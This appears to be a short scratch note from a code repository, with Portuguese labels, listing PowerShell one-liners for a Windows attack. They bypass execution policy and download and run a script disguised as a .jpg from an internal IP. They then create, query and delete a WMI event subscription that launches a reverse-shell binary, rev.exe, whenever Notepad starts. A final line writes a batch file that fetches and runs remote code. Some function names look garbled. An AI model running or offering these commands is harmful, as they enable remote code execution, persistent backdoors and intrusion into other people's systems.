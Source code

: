 # temp


será apagado

criar
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); pettily -EventName reversenotepad -PermanentCommand 'cmd.exe /c c:\temp\rev.exe' -Trigger ProcessStart -ProcessName notepad.exe"

consultar
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); snaking -Name reversenotepad"

excluir
powershell -nop -exe bypass -c "iex(New-Object Net.WebClient).DownloadString('http://10.0.2.50/wmic.jpg'); snaking -Name reversenotepad | Remove-WmiObject"
echo powershell.exe -nop -exe bypass iex(new-object net.webclient).downloadstring('http://172.16.192.200/fig.jpg') > rev.bat
